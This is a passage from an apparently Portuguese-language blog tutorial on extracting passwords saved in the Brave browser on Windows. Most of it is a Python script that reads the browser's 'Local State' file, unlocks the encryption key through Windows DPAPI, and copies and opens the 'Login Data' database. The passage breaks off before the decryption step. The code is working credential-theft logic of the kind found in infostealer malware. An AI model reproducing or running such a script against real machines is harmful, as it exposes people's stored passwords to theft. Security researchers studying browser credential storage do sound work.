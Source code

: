 ![](/assets/images/BCred/bc-03.png){: .align-center}

Agora, já temos todas as informações necessárias para extrair as senhas que estão salvas no navegador

# Criando um script para extrair as credenciais

Como já sabemos o caminho dos arquivos e como o AES funciona, basta agora automatizar todo esse processo. Para isso eu vou criar um script em Python

Basicamente o que o script faz é buscar esses arquivos e extrair as informações que precisamos (encrypted_key, vetor de inicialização e a senha criptografada), após isso ele realiza o decode da senha e printa as informações

```python
import os
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil

appdata = os.environ['USERPROFILE']
PATH_LSTATE = os.path.normpath(f"{appdata}\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data\\Local State")
PATH = os.path.normpath(f"{appdata}\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data")

with open( PATH_LSTATE, "r", encoding='utf-8') as f:
    local_state = f.read()
    local_state = json.loads(local_state)
secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
secret_key = secret_key[5:] 
secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]

login_db = os.path.normpath(r"%s\Default\Login Data"%(PATH))
shutil.copy2(login_db, "Loginvault.db")
conn = sqlite3.connect("Loginvault.db")

if(secret_key):
    cursor = conn.cursor()
```